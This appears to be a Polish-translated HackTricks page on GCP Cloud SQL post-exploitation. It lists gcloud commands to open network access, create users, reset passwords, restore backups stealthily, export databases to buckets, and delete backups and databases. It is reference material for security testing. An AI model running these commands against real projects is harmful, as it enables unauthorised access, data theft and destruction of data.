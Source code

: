 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Aby uzyskać więcej informacji na temat Cloud SQL, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Aby połączyć się z bazami danych, **wystarczy mieć dostęp do portu bazy danych** i znać **nazwa użytkownika** oraz **hasło**, nie ma żadnych wymagań dotyczących IAM. Zatem łatwym sposobem na uzyskanie dostępu, zakładając, że baza danych ma publiczny adres IP, jest zaktualizowanie dozwolonych sieci i **zezwolenie na dostęp z własnego adresu IP**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Możliwe jest również użycie **`--no-backup`** do **zakłócenia kopii zapasowych** bazy danych.

Ponieważ to są wymagania, nie jestem do końca pewien, jakie są uprawnienia **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Jeśli wiesz, wyślij PR!

### `cloudsql.users.list`

Uzyskaj **listę wszystkich użytkowników** bazy danych:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

To uprawnienie pozwala na **utworzenie nowego użytkownika wewnątrz** bazy danych:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

To uprawnienie pozwala na **aktualizację użytkownika wewnątrz** bazy danych. Na przykład, możesz zmienić jego hasło:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Kopie zapasowe mogą zawierać **stare wrażliwe informacje**, więc warto je sprawdzić.\
**Przywróć kopię zapasową** w bazie danych:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Aby zrobić to w bardziej ukryty sposób, zaleca się utworzenie nowej instancji SQL i odzyskanie danych tam zamiast w aktualnie działających bazach danych.

### `cloudsql.backupRuns.delete`

To uprawnienie pozwala na usuwanie kopii zapasowych:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksportuj bazę danych** do Cloud Storage Bucket, aby mieć do niej dostęp stamtąd:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importuj bazę danych** (nadpisz) z Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Usuń bazę danych z instancji db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
